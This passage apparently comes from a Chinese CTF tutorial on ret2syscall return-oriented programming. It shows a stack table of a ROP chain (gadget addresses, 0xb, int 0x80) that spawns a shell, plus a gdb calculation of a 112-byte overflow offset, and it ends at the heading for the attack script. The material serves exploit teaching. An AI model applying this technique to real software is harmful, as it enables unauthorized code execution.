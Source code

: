 - 程序执行`int 0x80`，攻击完成

| EIP  | .text                 | stack      | ESP  |
| ---- | --------------------- | ---------- | ---- |
|      |                       | N/A        | ←    |
| →    | int 0x80              | 0x08049421 |      |
|      |                       | 0          |      |
|      | pop edx; ret          | 0x0806eb6a |      |
|      |                       | 0x080be408 |      |
|      |                       | 0          |      |
|      | pop ecx; pop ebx; ret | 0x0806eb91 |      |
|      |                       | 0xb        |      |
|      | pop eax; ret          | 0x080bb196 |      |

6. `gdb`调试计算偏移值

> <img src="./img/62.png">

上图中，`eax`是`v4`的地址，偏移值为`0x88 - 0x1c = 108`，加上`ebp`本身的4字节，共112字节

7. 构造攻击脚本
